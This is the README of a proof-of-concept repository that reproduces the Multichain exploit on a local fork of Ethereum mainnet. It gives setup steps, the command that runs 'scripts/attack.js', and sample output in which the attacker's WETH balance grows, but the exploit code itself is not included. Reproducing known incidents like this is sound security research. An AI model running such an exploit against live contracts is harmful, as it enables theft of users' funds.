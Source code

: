 # Multichain re-hack PoC

## How to run

Install nodejs/yarn first

Set up the `forking url` (in `hardhat.config.ts`)

e.g. https://speedy-nodes-nyc.moralis.io/xxxxxxxxxxx/eth/mainnet/archive (
You need to apply for speedy-nodes from moralis.io)

Then run
```bash
yarn install
yarn hardhat run scripts/attack.js
```
You will see similar output later
```
Exploit contract deployed to: 0xab16A69A5a8c12C732e0DEFF4BE56A70bb64c926
WETH balance of attacker : 0.0
Exploiting... transcation:  0xc7e58e8da702e25e25fdc8370ab200347ff257466c0493a05885b40c6207f59b
Exploit complete.
WETH balance of attacker : 0.2
```
This means the attack is complete
> The block height of the fork is 14028473


## Link

* https://twitter.com/PeckShieldAlert/status/1483363515411099651
* https://www.tofreedom.me/multichain
